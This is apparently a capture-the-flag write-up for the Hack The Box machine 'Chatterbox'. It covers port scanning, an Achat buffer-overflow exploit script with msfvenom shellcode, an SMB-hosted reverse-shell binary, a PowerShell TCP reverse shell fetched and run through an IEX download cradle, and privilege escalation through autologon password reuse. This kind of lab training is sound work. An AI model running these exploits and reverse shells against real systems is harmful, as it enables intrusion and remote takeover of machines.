







# [Chatterbox](https://app.hackthebox.eu/machines/123)

Start with `nmap`:

```bash
# find open TCP ports
sudo masscan -p1-65535 10.10.10.74 --rate=1000 -e tun0 > masscan.txt
tcpports=$(cat masscan.txt | cut -d ' ' -f 4 | cut -d '/' -f 1 | sort -n | tr '\n' ',' | sed 's/,$//')
# TCP deep scan
sudo nmap -sS -p $tcpports -oA tcp --open -Pn --script "default,safe,vuln" -sV 10.10.10.74 &
# TCP quick scan
sudo nmap -v -sS -sC -F --open -Pn -sV 10.10.10.74
# UDP quick scan
sudo nmap -v -sU -F --open -Pn -sV --version-intensity 0 10.10.10.74
```

The TCP quick scan does not return anything and the UDP scan is also empty? The full `nmap` scan shows 2 ports:



What is Achat? Trying to browse to TCP port 9255 shows that it is not a web server? Try looking for an exploit:

```bash
searchsploit achat
```



Exploits 36025 and 36056 look promising:

- https://www.exploit-db.com/exploits/36025
  - Looks like a basic BOF for Windows 7 32bit
- https://www.exploit-db.com/exploits/36056
  - Same as exploit 36025, but for Metasploit

The target OS version is not known from other enumeration methods... I guess just try it out? First generate a new payload for exploit 36025 after looking at the following Metasploit Ruby code:

```ruby
'DefaultOptions' =>
  {
    'EXITFUNC' => 'process'
  },
'Payload'        =>
  {
    'DisableNops' => true,
    'Space'    => 730,
    'BadChars' => "\x00" + (0x80..0xff).to_a.pack("C*"),
    'StackAdjustment' => -3500,
    'EncoderType'    => Msf::Encoder::Type::AlphanumUnicodeMixed,
    'EncoderOptions'  =>
      {
        'BufferRegister' => 'EAX'
      }
  },
'Platform'       => 'win',
'Targets'        =>
  [
    # Tested OK Windows XP SP3, Windows 7
    # Not working on Windows Server 2003
    [ 'Achat beta v0.150 / Windows XP SP3 / Windows 7 SP1', { 'Ret' => "\x2A\x46" } ] 
  ],
'Privileged'     => false,
'DefaultTarget'  => 0,
```

 This becomes the below `msfvenom` command

```bash
BADCHARS=$(python -c 'print("\\x00"+"".join("\\x"+hex(c)[2:] for c in range(0x80,0x100)))')
msfvenom --payload windows/shell_reverse_tcp \
         LHOST=10.10.14.25 \
         LPORT=6969 \
         --arch x86 \
         --platform Windows \
         --encoder x86/unicode_mixed \
         BufferRegister=EAX \
         --bad-chars "$BADCHARS" \
         --var-name buf \
         --space 730 \
         --format python
```

However, the encoder failed to fit the payload into 730 bytes:



Instead of a reverse shell, try a WinExec payload that downloads a file over SMB and executes it:

```bash
msfvenom --payload windows/exec \
         CMD='cmd.exe /c \\10.10.14.25\BUBBA\bubba.exe' \
         --arch x86 \
         --platform Windows \
         --encoder x86/unicode_mixed \
         BufferRegister=EAX \
         --bad-chars "$BADCHARS" \
         --var-name buf \
         --space 730 \
         --format python
```

This does generate a valid encoded payload. Copy over and edit exploit 36025 to use the new `buf` Python variable and change the IP to 10.10.10.74 at the bottom:

```bash
searchsploit -m 36025
vim 36025.py
```

The exploit should look as follows:

```python
import sys
import time
import socket

buf =  b""
buf += b"\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49"
buf += b"\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41"
buf += b"\x49\x41\x49\x41\x49\x41\x6a\x58\x41\x51\x41\x44\x41"
buf += b"\x5a\x41\x42\x41\x52\x41\x4c\x41\x59\x41\x49\x41\x51"
buf += b"\x41\x49\x41\x51\x41\x49\x41\x68\x41\x41\x41\x5a\x31"
buf += b"\x41\x49\x41\x49\x41\x4a\x31\x31\x41\x49\x41\x49\x41"
buf += b"\x42\x41\x42\x41\x42\x51\x49\x31\x41\x49\x51\x49\x41"
buf += b"\x49\x51\x49\x31\x31\x31\x41\x49\x41\x4a\x51\x59\x41"
buf += b"\x5a\x42\x41\x42\x41\x42\x41\x42\x41\x42\x6b\x4d\x41"
buf += b"\x47\x42\x39\x75\x34\x4a\x42\x6b\x4c\x7a\x48\x45\x32"
buf += b"\x39\x70\x6d\x30\x59\x70\x4f\x70\x34\x49\x59\x55\x4e"
buf += b"\x51\x47\x50\x51\x54\x64\x4b\x62\x30\x6c\x70\x62\x6b"
buf += b"\x61\x42\x6c\x4c\x52\x6b\x6f\x62\x4c\x54\x44\x4b\x33"
buf += b"\x42\x6b\x78\x4c\x4f\x77\x47\x6d\x7a\x6c\x66\x6c\x71"
buf += b"\x4b\x4f\x56\x4c\x4f\x4c\x63\x31\x73\x4c\x5a\x62\x4c"
buf += b"\x6c\x4d\x50\x49\x31\x58\x4f\x5a\x6d\x5a\x61\x78\x47"
buf += b"\x68\x62\x59\x62\x50\x52\x50\x57\x54\x4b\x31\x42\x4c"
buf += b"\x50\x64\x4b\x6e\x6a\x6f\x4c\x72\x6b\x30\x4c\x5a\x71"
buf += b"\x74\x38\x4a\x43\x4d\x78\x79\x71\x77\x61\x4f\x61\x72"
buf += b"\x6b\x32\x39\x4b\x70\x49\x71\x5a\x33\x72\x6b\x6f\x59"
buf += b"\x6a\x78\x7a\x43\x6d\x6a\x6e\x69\x32\x6b\x30\x34\x54"
buf += b"\x4b\x4b\x51\x4a\x36\x70\x31\x39\x6f\x36\x4c\x57\x51"
buf += b"\x68\x4f\x6c\x4d\x49\x71\x38\x47\x70\x38\x49\x50\x51"
buf += b"\x65\x69\x66\x4c\x43\x31\x6d\x5a\x58\x6d\x6b\x73\x4d"
buf += b"\x4b\x74\x51\x65\x67\x74\x72\x38\x64\x4b\x52\x38\x4f"
buf += b"\x34\x5a\x61\x79\x43\x33\x36\x42\x6b\x5a\x6c\x30\x4b"
buf += b"\x42\x6b\x30\x58\x4b\x6c\x4b\x51\x57\x63\x34\x4b\x5a"
buf += b"\x64\x72\x6b\x4d\x31\x46\x70\x72\x69\x51\x34\x6d\x54"
buf += b"\x6c\x64\x4f\x6b\x71\x4b\x51\x51\x31\x49\x71\x4a\x4e"
buf += b"\x71\x4b\x4f\x4b\x30\x4f\x6f\x61\x4f\x30\x5a\x72\x6b"
buf += b"\x7a\x72\x4a\x4b\x42\x6d\x61\x4d\x31\x5a\x7a\x61\x74"
buf += b"\x4d\x52\x65\x75\x62\x6d\x30\x59\x70\x69\x70\x50\x50"
buf += b"\x42\x48\x4c\x71\x32\x6b\x72\x4f\x52\x67\x39\x6f\x37"
buf += b"\x65\x75\x6b\x4a\x50\x78\x35\x77\x32\x71\x46\x62\x48"
buf += b"\x37\x36\x32\x75\x35\x6d\x53\x6d\x69\x6f\x67\x65\x6f"
buf += b"\x4c\x59\x76\x33\x4c\x5a\x6a\x51\x70\x79\x6b\x49\x50"
buf += b"\x42\x55\x7a\x65\x67\x4b\x50\x47\x6d\x43\x44\x32\x30"
buf += b"\x6f\x52\x4a\x69\x70\x6e\x73\x69\x6f\x49\x45\x73\x33"
buf += b"\x72\x4d\x31\x54\x4e\x4e\x62\x45\x63\x48\x43\x35\x6f"
buf += b"\x30\x4c\x6f\x42\x43\x4d\x50\x6f\x6c\x6f\x6c\x4c\x71"
buf += b"\x6e\x50\x4e\x4e\x50\x31\x4c\x70\x6e\x4e\x30\x31\x4f"
buf += b"\x44\x4c\x6e\x4f\x42\x4f\x45\x4f\x6c\x6f\x52\x61\x45"
buf += b"\x4f\x52\x6f\x52\x6f\x51\x6f\x6c\x43\x32\x34\x35\x53"
buf += b"\x32\x63\x32\x51\x51\x6e\x4e\x72\x45\x32\x58\x70\x65"
buf += b"\x4d\x30\x41\x41"

# Create a UDP socket
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
server_address = ('10.10.10.74', 9256)

fs = "\x55\x2A\x55\x6E\x58\x6E\x05\x14\x11\x6E\x2D\x13\x11\x6E\x50\x6E\x58\x43\x59\x39"
p  = "A0000000002#Main" + "\x00" + "Z"*114688 + "\x00" + "A"*10 + "\x00"
p += "A0000000002#Main" + "\x00" + "A"*57288 + "AAAAASI"*50 + "A"*(3750-46)
p += "\x62" + "A"*45
p += "\x61\x40"
p += "\x2A\x46"
p += "\x43\x55\x6E\x58\x6E\x2A\x2A\x05\x14\x11\x43\x2d\x13\x11\x43\x50\x43\x5D" + "C"*9 + "\x60\x43"
p += "\x61\x43" + "\x2A\x46"
p += "\x2A" + fs + "C" * (157-len(fs)- 31-3)
p += buf + "A" * (1152 - len(buf))
p += "\x00" + "A"*10 + "\x00"

print "---->{P00F}!"
i=0
while i<len(p):
    if i > 172000:
        time.sleep(1.0)
    sent = sock.sendto(p[i:(i+8192)], server_address)
    i += sent
sock.close()
```

Now generate the secodnary reverse shell to be hosted over SMB and executed by the target:

```bash
# generate payload
msfvenom -p windows/shell_reverse_tcp \
         LHOST=10.10.14.25 \
         LPORT=6969 \
         -a x86 --platform windows \
         -e x86/shikata_ga_nai \
         -f exe \
         -o bubba.exe
# host payload
sudo impacket-smbserver BUBBA .
# start listener
nc -nvlp 6969
# run exploit 
python2.7 36025.py
```

And this returns a shell with `user.txt`:



After getting access, it seems like there are cached credentials:

```bash
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"
```



Maybe try for password reuse? Without an interactive shell, use PowerShell. Save the following PowerShell as `bubba.txt`:

```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.25',7777);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
  $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
  $sendback = (iex $data 2>&1 | Out-String);
  $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
  $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
  $stream.Write($sendbyte,0,$sendbyte.Length);
  $stream.Flush();
}
$client.Close();
```

Then host the payload on Kali:

```bash
sudo python3 -m http.server 80
nc -nvlp 7777
```

Then trigger execution on the target:

```bash
powershell.exe -exec bypass -c IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.14.25/bubba.txt')
```

Now run the following PowerShell:

```bash
$p = ConvertTo-SecureString -String 'Welcome1!' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential('Administrator', $p)
Start-Process -FilePath 'whoami' -Credential $c -RedirectStandardOutput stdout.txt -RedirectStandardError stderr.txt
```



Nice! It seems like the password for `administrator` is `Welcome1!`. Use it to get a dedicated reverse shell:

```bash
# run on kali
msfvenom -p windows/shell_reverse_tcp \
         LHOST=10.10.14.25 \
         LPORT=8888 \
         -a x86 --platform windows \
         -e x86/shikata_ga_nai \
         -f exe \
         -o bubba.root.exe
sudo impacket-smbserver BUBBA .
nc -nvlp 8888
```

Now spawn this reverse shell using the following PowerShell:

```powershell
$p = ConvertTo-SecureString -String 'Welcome1!' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential('Administrator', $p)
Start-Process -FilePath 'cmd' -Credential $c -ArgumentList '/c \\10.10.14.25\BUBBA\bubba.root.exe'
```

And this returns a shell:



